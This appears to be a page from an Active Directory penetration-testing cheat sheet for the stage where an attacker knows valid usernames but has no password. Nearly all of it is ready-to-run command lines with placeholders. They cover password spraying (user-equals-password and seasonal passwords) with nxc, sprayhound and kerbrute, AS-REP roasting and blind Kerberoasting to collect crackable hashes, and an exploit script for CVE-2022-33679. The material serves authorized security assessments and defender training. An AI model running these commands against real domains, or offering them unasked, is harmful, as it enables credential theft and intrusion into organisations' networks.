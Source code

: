 ```yaml
---
title: "Valid User (No Password)"
description: "Valid User (No Password) techniques and commands for Active Directory security assessment."
---
```

# Valid User (No Password)
## Password Spray
- Get password policy  (you need creds,but you should get the policy  first to avoid locking accounts)
  - default policy
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' --pass-pol`
[password-policy](https://www.thehacker.recipes/ad/recon/password-policy)
    - `Get-ADDefaultDomainPasswordPolicy`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> domain_policy`
  - Fined Policy (Privileged)
    - `ldapsearch-ad.py --server <dc> -d <domain> -u <user> -p <pass> --type pass-pols`
    - `Get-ADFineGainedPasswordPolicy -filter *`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> pso # can also be runned with a low priv account but less information will be available`
- ⚠️ user == password *Clear text Credentials*{: .highlight}
  - `nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success`
  - `sprayhound -U <users.txt> -d <domain> -dc  <dc_ip>   # add --lower to lowercase and --upper to uppercase. Add nothing to get only user=pass`
- ⚠️ usuals passwords  (SeasonYear!, Company123, ...) *Clear text Credentials*{: .highlight}
  - `nxc smb <dc_ip> -u <users.txt> -p <password> --continue-on-success`
  - `sprayhound -U <users.txt> -p <password> -d <domain> -dc  <dc_ip>`
  - `kerbrute passwordspray -d <domain> <users.txt> <password>`

## ASREPRoast
- List ASREPRoastable Users (need creds)
  - `MATCH (u:User) WHERE u.dontreqpreauth = true AND u.enabled = true RETURN u`
- ASREP roasting *Hash found ASREP*{: .highlight}
  - `GetNPUsers.py <domain>/ -usersfile <users.txt> -format hashcat -outputfile <output.txt>`
  - `nxc ldap <dc_ip> -u <users.txt>  -p '' --asreproast <output.txt>`
  - `Rubeus.exe asreproast /format:hashcat`
- Blind Kerberoasting *Hash found TGS*{: .highlight}
  - `Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>`
  - `GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/`
- CVE-2022-33679 @CVE@ *Lat move PTT*{: .highlight} 
  - `CVE-2022-33679.py <domain>/<user> <target>`